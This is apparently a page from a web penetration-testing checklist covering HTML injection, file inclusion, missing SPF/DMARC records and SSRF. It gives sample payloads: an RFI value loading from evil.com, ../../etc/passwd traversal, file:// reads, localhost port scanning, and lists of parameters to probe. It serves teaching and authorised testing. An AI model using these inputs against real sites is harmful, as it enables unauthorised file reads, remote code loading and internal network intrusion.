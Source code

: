 ****

### 10. HTML Injection

**Approach:**

1. Use GET or POST method
2. Input value reflecting back
3. Test with HTML payload like `<h1>adam</h1>`
4. URL redirection via HTML injection****

### 11. File Inclusion

**Approach:**

1. Local File Inclusion (LFI) & Remote File Inclusion (RFI)
2. For LFI, try:
    - `any.com/index.php?reference=login.php`
3. For RFI, try:
    - `any.com/?share=http://evil.com/`
    - Common parameters to look for:
        - `file`, `document`, `folder`, `root`, `path`, `pg`, `style`, `pdf`, `template`, `php_path`, `doc`, `dest`, `redirect`, `uri`, `path`, `continue`, `url`, `window`, `next`, `data`, `reference`, `site`, `html`, `val`, `validate`, `domain`, `callback`, `return`, `page`, `feed`, `port`, `host`, `to`, `out`, `view`, `dir`, `show`, `navigation`, `open`
4. For LFI, check:
    - `/var/www/html/` & `/etc/passwd`
    - `../../etc/passwd`**Tool Used:** Lfisuite tool from GitHub

### 12. Missing SPF, DMARC Records

**Approach:**

- Detect missing SPF and DMARC records using:
    - `mxtoolbox.com`
    - `anonymousmail.me`
    - `https://emkei.cz/`**Tool Used:** [mxtoolbox.com](http://mxtoolbox.com/) / [anonymousmail.me](http://anonymousmail.me/) / https://emkei.cz/

### 13. SSRF (Server-Side Request Forgery)

**Approach:**

1. Make a request from a vulnerable application to a target website.
2. Common parameters to look for:
    - `dest`, `redirect`, `uri`, `path`, `continue`, `url`, `window`, `next`, `data`, `reference`, `site`, `html`, `val`, `validate`, `domain`, `callback`, `return`, `page`, `view`, `dir`, `show`, `file`, `document`, `folder`, `root`, `path`, `pg`, `style`, `pdf`, `template`, `php_path`, `doc`, `feed`, `host`, `port`, `to`, `out`, `navigation`, `open`, `result`
3. Detection using:
    - `https://www.expressvpn.com/what-is-my-ip`
    - Burp Collaborator
4. For exploitation, try:
    - `any.com/index/php?uri=http://external.com`
    - Read file from server (e.g., `file:///identf` using LFI payloads)
    - Scan internal network (e.g., `http://localhost:1` changing the port number to common ports like 21, 22)
    - SSRF with RFI: Execute code from the external domain (e.g., use `hackoff.html` with XSS script)**Tool Used:** Burp Collaborator / `https://www.expressvpn.com/what-is-my-ip`
